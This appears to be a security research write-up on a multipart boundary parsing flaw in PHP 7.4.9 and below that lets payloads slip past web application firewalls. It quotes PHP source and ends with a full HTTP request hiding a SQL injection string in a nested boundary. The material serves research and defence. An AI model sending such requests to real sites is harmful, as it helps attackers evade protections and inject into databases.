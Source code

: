 ### PHP 7.4.9 and below

**Incorrect boundary parsing**  
Attack payload can be hidden from WAF in file

**Source code**  
[/php/php-src/main/rfc1867.c](https://github.com/php/php-src/blob/4514afc1875bedf4dc07cb457f8ef5c986a7ca55/main/rfc1867.c#L711-L725)
```c
boundary = strstr(content_type_dup, "boundary");
...
if (!boundary || !(boundary = strchr(boundary, '='))) {
```

[/php/php-src/main/SAPI.c](https://github.com/php/php-src/blob/af80d8a14e5540a151e2b40f165ebe122467484b/main/SAPI.c#L182-L195)
```c
for (p=content_type; p<content_type+content_type_length; p++) {
  switch (*p) {
    case ';':
    case ',':
    case ' ':
      content_type_length = p-content_type;
      ...
    default:
      *p = tolower(*p);
```

**Content-Type**
```
application/x-www-form-urlencoded XXX
application/x-www-form-urlencoded,XXX
multipart/form-data XXX
multipart/form-data,XXX
```

**Multipart Content-Type**
| Check             | Value            |
|-------------------|------------------|
| Mime-Type         | case-insensitive |
| Multiple boundary | first position   |
| Boundary key      | case-sensitive   |

**HTTP Request**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: multipart/form-data XXX; PHPboundaryPHP=phpboundary; boundary=wafboundary
Content-Length: 219

--wafboundary
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--phpboundary
Content-Disposition: form-data; name="q"

' union select '1
--phpboundary--
--wafboundary--
```